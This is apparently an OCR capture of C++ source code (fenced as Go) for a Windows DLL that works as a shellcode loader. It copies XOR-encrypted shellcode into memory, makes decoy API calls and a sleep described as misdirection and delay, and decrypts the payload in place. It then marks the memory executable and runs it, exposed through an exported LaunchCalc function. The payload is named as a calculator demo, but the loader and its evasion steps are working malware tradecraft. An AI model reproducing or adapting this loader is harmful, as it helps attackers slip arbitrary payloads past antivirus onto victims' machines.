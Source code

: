 ```go
	// we copy ENCRYPTED shellcode into memory
    memcpy(exec_memory, calc_shellcode, sizeof(calc_shellcode));

    // Misdirection: Call some common, low-impact APIs
    DWORD tickCount = GetTickCount();
    SYSTEMTIME sysTime;
    GetSystemTime(&sysTime);

    // Delay: Pause execution for a short period
    Sleep(2000); // Sleep for 2 seconds (Adjust as needed)


    // NOW, we DECRYPT the shellcode in the allocated buffer
    unsigned char* p_mem = (unsigned char*)exec_memory;
    for (size_t i = 0; i < sizeof(calc_shellcode); ++i) {
       p_mem[i] = p_mem[i] ^ xor_key[i % key_len]; // XOR each byte
    }


    // Change memory protection to RX before execution
    if (!VirtualProtect(exec_memory, sizeof(calc_shellcode), PAGE_EXECUTE_READ, &oldProtect)) {
        // Handle VirtualProtect error (e.g., print GetLastError())
        VirtualFree(exec_memory, 0, MEM_RELEASE); // Clean up allocated memory
        return FALSE;
    }

    void (*shellcode_func)() = (void(*)())exec_memory;

    shellcode_func();

    // (Optional but Recommended) Restore original permissions before freeing
    DWORD dummyProtect; // We don't care about the 'old' protection on this call
    VirtualProtect(exec_memory, sizeof(calc_shellcode), oldProtect, &dummyProtect);

    VirtualFree(exec_memory, 0, MEM_RELEASE);
    return TRUE;
}

extern "C" {
    __declspec(dllexport) BOOL LaunchCalc() {
        return ExecuteShellcode();
    }
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```
